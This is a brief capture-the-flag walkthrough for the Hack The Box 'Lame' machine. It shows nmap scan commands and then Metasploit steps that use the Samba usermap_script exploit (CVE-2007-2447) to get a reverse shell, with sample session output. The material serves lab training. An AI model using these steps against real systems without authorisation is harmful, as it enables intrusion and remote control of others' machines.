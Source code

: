  WalkthroughLameHackTheBox
 
We will learn the following:
- Using nmap to find opened ports & running services (https://nmap.org/)
- Searching for public exploits for vulnerable services (https://www.metasploit.com/)
- Download and install required tools/libraries to run exploit on target machine
- Reverse shell on target machine

Let's go:
excute on command line (zhs :) )
(sudo) nmap -sC -sV -p- -T4 "<RemoteIp>" or 
(sudo) nmap -A "<RemoteIp>" or 
(sudo) nmap -T4 - A -V "<RemoteIp>"

go to samba target (CVE-2007-2447 with metasploit framework)

sudo msfdb init && msfconsole

msf6>
msf6> use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set lhost <LocalIp> (set your localhost ip in vpn tunnel, if necessary)
msf6 exploit(multi/samba/usermap_script) > set rhost <RemoteIp> (set Remote host ip>
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on <LocalIp>:4444 
[*] Command shell session 1 opened (<LocalIp>:4444 -> <RemoteIp>:43178)

We are in
feel free to run commands
like >_ uname -r & pwd & ls

Hug!
>_JMP
